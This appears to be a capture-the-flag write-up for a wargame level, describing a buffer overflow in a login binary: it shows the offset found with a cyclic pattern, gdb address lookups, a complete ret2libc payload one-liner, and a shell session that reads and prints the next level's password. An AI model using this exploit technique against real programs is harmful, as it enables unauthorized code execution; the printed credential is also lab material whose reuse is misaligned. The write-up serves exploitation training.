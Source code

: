 ## Project README: Finding flag01
When we decompile it we can see that he is using 2 function :
one to check username and one to check the password.

### Analysis
We see that the username is : dat_wil
and the password his :admin. But this doesn't change anything.
What we can do is make the password segfault.
with this test : aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09
we found this offset = cA00
so ther is 80 caractere before the segfault
so we can make him execute something :

### Progress

let's try a rettolibc :
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
we just have to make it jump to the system func with exit and bin sh
(python -c 'print("dat_wil")';python -c 'print("\x90" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")';cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...



whoami
level02
cd ..
cd level02
cat .pas
cat: .pas: No such file or directory
s
/bin/sh: 7: s: not found
cat .pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
